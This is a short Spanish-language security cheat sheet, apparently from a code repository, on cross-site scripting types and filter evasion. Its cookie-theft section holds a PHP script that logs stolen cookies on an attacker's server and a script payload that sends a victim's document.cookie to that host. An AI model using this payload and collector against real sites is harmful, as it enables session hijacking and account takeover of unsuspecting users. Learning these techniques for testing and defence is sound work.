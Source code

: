 <link rel="stylesheet" href="style.css">

# CheatSheet Ciberseguridad

## Vulnerabilidades

## Cross Site Scripting - XSS

### Tipos de XSS

- **Reflejado**: El atacante puede ver el resultado de la ejecución del script en el navegador.
- **Persistente**: El atacante puede ejecutar el script en cualquier momento.
- **Basado en DOM**: Se lleva a cabo cuando el código malicioso se inyecta mediante la url pero no se carga como parte de la web en su código fuente

### Evasión de filtros de seguridad

- Utilizar URL Encode
- Uso de etiquetas HTML como IMG, FRAME, IFRAME, etc
- Utilizar etiquetas HTML5 como VIDEO, AUDIO, etc
- Utilizar funciones en JavaScript como "String.fromCharCode()"
- Inyectar código direactamente en código JavaScript válido

Más informacion:

- <https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet>
- <https://html5sec.org/>

### Robo de Cookies

Primero se sube un fichero (cookies.php) con el siguiente código en algún servidor en el que se tenga control:

```php
<?php
    $handle=fopen("cookies_list.txt","a");
    fputs($handle,"\n".$_GET["cookie"]."\n");
    fclose($handle);
?>
```

Ejemplo a petición para forzar al cliente a enviarnos sus cookies:

```html
<script>
    var i=new Image(); i.src="http://dominio/cookies.php?"%2bdocument.cookie;
</script>

%2b -> +
```

## SQL Injection
